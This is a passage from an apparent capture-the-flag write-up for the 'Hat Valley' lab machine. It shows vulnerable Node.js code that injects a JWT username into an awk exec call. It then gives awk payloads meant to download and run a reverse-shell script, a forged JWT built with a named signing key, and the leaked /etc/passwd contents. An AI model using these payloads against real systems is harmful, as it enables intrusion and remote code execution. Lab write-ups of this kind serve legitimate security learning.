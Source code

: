             exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
                if(stdout) {
                    return res.status(200).send(new Buffer(stdout, 'binary'));
                }
                if (error) {
                    return res.status(500).send("Failed to retrieve leave requests")
                }
                if (stderr) {
                    return res.status(500).send("Failed to retrieve leave requests")
                }
            })
        })
        ```

    `/api/submit-leave` and `/api/all-leave` contain a command-injection vulnerability but there are many blocked characters

    what is `awk`: [https://www.geeksforgeeks.org/awk-command-unixlinux-examples/](https://www.geeksforgeeks.org/awk-command-unixlinux-examples/)

    the syntax is: `awk options 'selection _criteria {action }' input-file > output-file`

    look at: [https://gtfobins.github.io/gtfobins/awk/](https://gtfobins.github.io/gtfobins/awk/) &#8594; `awk '//' /etc/passwd`

    curly braces are very important to obtain a reverse shell:
    - `/ { print 1 } BEGIN {system("wget localhost:8000/revshell.sh")} /`<br>&#8594;<br> `awk '// { print 1 } BEGIN {system("wget localhost:8000/revshell.sh")} //' file.txt`
    - `/ { print 1 } BEGIN {system("bash revshell.sh")} /`<br>&#8594;<br>`awk '// { print 1 } BEGIN {system("bash revshell.sh")} //' file.txt`

    <br>

    the creator prevented using these characters so I guess it's not yet time to get a reverse shell, so I just read the files on the file system:<br>
    `/' /etc/passwd '`<br>&#8594;<br>`awk '// ' /etc/passwd '/' /var/www/private/leave_requests.csv`

    always using the site [https://jwt.io](https://jwt.io) I create a token:
    ```
    header = {"alg":"HS256","typ":"JWT"}
    payload = {"username":"/' /etc/passwd '","iat":1671016345} #www.epochconverter.com
    signature key = 123beany123
    ```

    I get: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzEwMTYzNDV9.LWlcpxTk5MgZVyVDa5Ltadtq5iBpMyX2cMA_CZjr6EE`
    
    I set the token value and do an HTTP GET to [`http://hat-valley.htb/api/all-leave`](http://hat-valley.htb/api/all-leave)

    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin